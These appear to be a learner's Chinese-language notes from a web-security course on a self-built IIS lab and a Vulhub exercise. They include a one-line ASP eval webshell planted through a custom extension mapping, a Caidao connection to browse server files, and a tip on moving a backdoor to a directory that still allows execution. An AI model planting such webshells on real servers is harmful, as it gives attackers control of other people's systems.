# 域名IP目录解析安全问题

ISS搭建网站后，配置ip地址可在浏览器直接访问，若写入域名，再次打开网站会发现ip地址访问的网站无法访问，域名访问的才可以

> 注意：在host 文件中指向域名192.168.87.133 www.test001.com，网站才可生效



域名访问时，在asp源文件中创建111.txt文件，进行访问可以看到输出内容

测试发现域名指向当前目录，ip地址指向父目录，而父目录通常包含备份文件，可以通过ip访问获得备份文件。

# 常见文件后缀解析对应安全

先复制.asp文件的路径



**IIS 通过文件的“扩展名”来决定用哪个 DLL 程序去解析它**，手动添加映射，将xiaodi8的文件交由asp.dll解析，在网站下添加x.xiaodi8文件。放入木马`<%eval request("x")%>`，在网址中查看，返回404，不知道为啥。问ai改了一下web.config，成功了



连接菜刀，发现可以访问服务器文件



ISS通过拓展名决定用哪个处理程序，可能存在漏洞点。我们创建一个自定义扩展名（如 `.xiaodi8`）也映射到 `asp.dll`，那么这个扩展名的文件就会被当作 ASP 脚本执行。

# 常见安全测试中的安全防护

设置拒绝我宿主机的ip，直接返回403，一般校园网就这样拒绝其他网络访问



# web后门与用户及文件权限

通过上面的[实验](#常见文件后缀解析对应安全)成功使用菜刀可以浏览全部文件夹，并且可操作。操作之后在本地电脑点击文件夹属性会发现有匿名用户访问，此时，修改执行权限为无，就不能通过菜刀访问了。解决思路是，换目录。即网站文件也有需要执行的文件（images 存放图片的目录除外），不能对全不目录限制执行权限，发现后门脚本不能运行时，可以放在其他有执行权限的目录，比如根目录。**前提**得有这种操作的权限

## Vulhub靶场

下载完进入目录,编译运行 `build` `-d`





`config`查看端口



`ifconfig`查看网站地址



成功打开



打开vulhub官方网站漏洞文档



根据文档创建文件上传，成功



访问显示路径，绕过后缀检查，执行了php中代码，证实漏洞存在



退出容器



